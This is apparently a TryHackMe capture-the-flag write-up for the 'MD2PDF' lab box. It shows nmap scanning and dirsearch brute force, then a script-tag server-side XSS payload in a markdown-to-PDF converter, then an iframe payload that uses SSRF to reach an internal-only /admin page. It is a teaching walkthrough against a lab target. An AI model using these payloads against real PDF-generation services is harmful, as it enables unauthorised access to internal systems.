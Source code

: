 <h2>Target: 10.10.202.61 MD2PDF</h2>
<b>Initial Access:</b><br>
Step 1: nmap -Pn --min-rate=5000 10.10.202.61 -p-|grep open|awk -F '/' "{print $1}"|sed -z 's/\n/,/g' <br>
Nmap returns opon ports: 22,80,5000 <br><br>

Step 2: Run directory brute force on port 80 using dirsearch: dirsearch -r -u http://10.10.202.61/ -e txt,html -f -o dsearch-md2pdf

Dirsearch returns showing their is a directory of /admin.

Step 3: Visiting http://10.10.202.61/admin shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/fa150fff-2252-4f6d-b602-690c73a0605b)

The page shows this /admin can only be accessed internally.  

Step 4: Navigating to port 80 shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/21ef529a-cda5-460f-9447-380fa68c59dd)
  
The page has a place for a user to input text and the bottom right corner of the page has a ‘Convert to PDF’ function.  The top left corner of the site shows ‘MD2PDF’ which seems to indicate that this is a markdown to pdf converter.  

Step 5: Check if we can input markdown code which will run when converted to a pdf.  Write the following code in the user input: <script>document.write('hacked')</script>

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/63dab6d2-1c6a-4c33-8918-013a1b4ff61a)
 
Step 6: Clicking on ‘Convert to PDF’ creates a pdf page showing:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/b9524afe-e199-4242-8ddf-8b5a6163eed4)
 
The pdf shows that it ran our code and therefore only shows the word ‘hacked’ and not the words we entered.  The pdf created confirms that when converting from markdown to pdf our code runs.  This is called Server Side XSS.  

For further reading on Server Side XSS see: https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf 

Step 7: Leverage the server side xss to get server side request forgery so that we can access the directory of /admin: <iframe src="http://localhost:5000/admin";style=position:fixed;width=1000px;height=500px</iframe>

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/a958f700-7344-4aaf-9cb6-41a3a90431a9)
 
Click on ‘Convert to PDF’ and we get the flag.  
